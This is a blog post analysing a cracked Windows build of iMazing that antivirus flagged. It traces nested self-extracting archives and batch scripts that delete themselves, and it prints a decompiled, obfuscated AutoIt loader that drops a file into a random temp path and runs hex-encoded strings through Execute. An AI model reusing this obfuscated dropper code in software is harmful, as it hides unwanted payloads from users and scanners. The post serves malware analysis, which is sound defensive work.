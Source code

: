 ```yaml
---
title: Analyze iMazing_TNTCracked
description: Analyze iMazing_TNTCracked
date: 2021-09-27 13:56:01+0800
categories:
    - ReverseAnalyze
tags:
    - Virus
    - Windows
---
```


Source: [Moeomu's blog](/posts/analyze-imazing_tntcracked/)

## Origin

I wanted to find a backup of AIS Assistant, found iMazing, and got excited to find a cracked version of iMazing for TNT, downloaded from [this link](https://www.tntmac.com/tag/imazing-for-mac-crack/) for Windows but found it was Windows 11 comes with antivirus software, so I got interested in analyzing this cracked version

## Analysis

### 1. Overview

![Decompression](https://i.loli.net/2021/10/11/o4TszgPHIcYji2G.png)

- As shown in the picture, after decompression is an official installation package and a `Create__Fix.exe`, it is this file is reported as poison, so start the investigation

### 2、Create__Fix.exe

![zip](https://i.loli.net/2021/10/11/LXSnr6B7TtgvuRK.png)

- drag into the DIE, see this file seems to be a zip package, it will be decompressed, the contents are shown in the figure

![Another zip package](https://i.loli.net/2021/10/11/lfKRim4QrjzaUYP.png)

- There is a `Fix.exe` and a `iMazing_fix.bat`, but this bat open is garbled, use C32Asm to see the contents of the hexadecimal format, as shown in the figure

![clear](https://i.loli.net/2021/10/11/cxYuqhaTLU9vElP.png)

- This is very clear, this `iMazing_fix.bat` run process is as follows
  - The first step, run `Fix.exe`, the parameters are `pt147147` and `-d%dir%`, the way this is written makes me feel that this is a compressed file, it seems to be true
  - The second step, wait a second
  - Step 3, delete `Fix.exe` and `iMazing_fix.bat`
- I can't help but wonder what makes it look like lasagna, layer after layer without end
- As you can see in the picture, it is another RAR file, not surprisingly

![No way again](https://i.loli.net/2021/10/11/F9l2jZUYENfCuHz.png)

### 3, Fix.exe

- Unzip, need password, I guess the password is `t147147`, oh guess right, the TNT team did not customize their own decompression tools, using WinRAR sfx self-extraction module to pass the reference decompression, decompression as shown in the picture

![Another decompression](https://i.loli.net/2021/10/11/lm6yzf5asNHcRbS.png)

- The decompressed file is divided into three, the bat script is still encrypted, use the hex editor again to read it
- After DIE analysis, `data.bin` is an executable program, rename it to `data.exe`
- After DIE analysis, `v1` is a binary file, temporarily unrecognizable

### 4、Created_By_TNT_Team.bat

![Created_By_TNT_Team.bat](https://i.loli.net/2021/10/11/GmCj7cvfk8N62WB.png)

- As shown in the picture, this script file does the following actions
  - Step 1, clean the screen
  - Step 2, turn off the display back
  - Step 3, run `data.bin`, an executable program with the parameter `v1`
  - Step 4, delete `v1`, `data.bin`, `Created_By_TNT_Team.bat`

### 4. data.exe and v1

- This `data.exe` is very clear after renaming, it is the script runner of AutoIt3, then `v1` is unsurprisingly an AutoIt3 script, the suffix should be `a3x`
- `v1` is the compiled au3 script, I found some decompilers on GitHub, for example [UnAutoIt](https://github.com/x0r19x91/UnAutoIt)
- As you can see, after unpacking, an `iMazing.exe` is released from v1, along with a script that is extremely obfuscated and almost unreadable
- The modified `iMazing.exe` also comes with the original digital signature, although it is no longer valid, it looks like it will locally modify the `iMazing.exe`, should be considered a file patch, but it seems that the hash has not changed ...

![extra](https://i.loli.net/2021/10/11/9yFOsWujGwPJmQ6.png)

> Here's some useful code from the decompile

```AutoIt3
Func a2f00001b21_()
    For $ax0x0xa = 0x1 To 0x5
        Local $a2f00001b21sz_ = a2f00001b21x_()
        FileInstall("d3c0ef51c80f467bc9002bbf93fcb10d0c917dbaae819ccd925e2f8902d3c9c5229702964c538605098cce34d2e9cc90ce0618992ba26caea18b5b5ccd9dd0acf02370c4bc004868283b8067c8309862" & _
            "cf2f70d92252928d02af9b1c7d80c3303522b08f2", $a2f00001b21sz_, 0x1)
        Global $a2f00001b21, $os = Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
            "3533333337333433373332333633393336343533363337333533333337333033363433333633393337333433323338333433363336333933363433333633353335333233363335333633313336333433" & _
            "3233383332333433343331333333323334333633333330333333303333333033333330333333313334333233333332333333313337333333373431333534363332333933323433333233373337343333" & _
            "33333333333338333333373334333933323337333234333333333133323339323732393239272929"))
        If IsArray($os) And $os[0x0] >= 0x46da Then ExitLoop
        Sleep(0xa)
    Next
    Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
        "3333313332343233343336333633393336343333363335333433343336333533363433333633353337333433363335333233383332333433343331333333323334333633333330333333303333333033" & _
        "3333303333333133343332333333323333333133373333333734313335343633323339323732393239272929"))
EndFunc    ; -> a2f00001b21_

Func a2f00001b21x_()
    Local $a2f00001b21s1_ = a2f00001b21("4054656D70446972"), $a2f00001b21s3_ = a2f00001b21("31"), $a2f00001b21s4_ = a2f00001b21("5c"), $a2f00001b21s5_ = a2f00001b21("5c"), $a2f00001b21s6_ = a2f00001b21("37"), $a2f00001b21s8_ = a2f00001b21("3937"), $a2f00001b21s9_ = a2f00001b21("313232"), $a2f00001b21s7_ = a2f00001b21("31"), $a2f00001b21sa_
    Local $a2f00001b21s2_ = Execute($a2f00001b21s1_)
    If StringRight($a2f00001b21s2_, Number($a2f00001b21s3_)) <> $a2f00001b21s4_ Then $a2f00001b21s2_ = $a2f00001b21s2_ & $a2f00001b21s5_
    SRandom(Number(StringRight(TimerInit(), 0x4)))
    Do
        $a2f00001b21sa_ = ''
        While StringLen($a2f00001b21sa_) < Number($a2f00001b21s6_)
            $a2f00001b21sa_ = $a2f00001b21sa_ & Chr(Random(Number($a2f00001b21s8_), Number($a2f00001b21s9_), Number($a2f00001b21s7_)))
        WEnd
        $a2f00001b21sa_ = $a2f00001b21s2_ & $a2f00001b21sa_
    Until Not FileExists($a2f00001b21sa_)
    Return ($a2f00001b21sa_)
EndFunc    ; -> a2f00001b21x_

Func a2f00001b21($a2f00001b21)
    Local $a2f00001b21_
    For $x = 0x1 To StringLen($a2f00001b21) Step 0x2
        $a2f00001b21_ &= Chr(Dec(StringMid($a2f00001b21, $x, 0x2)))
    Next
    Return $a2f00001b21_
EndFunc    ; -> a2f00001b21
```

## Conclusion

- It should do nothing but release an executable file, but the way this is released is really strange
- It finally released `iMazing.exe` is not a cracked version, things are even more strange
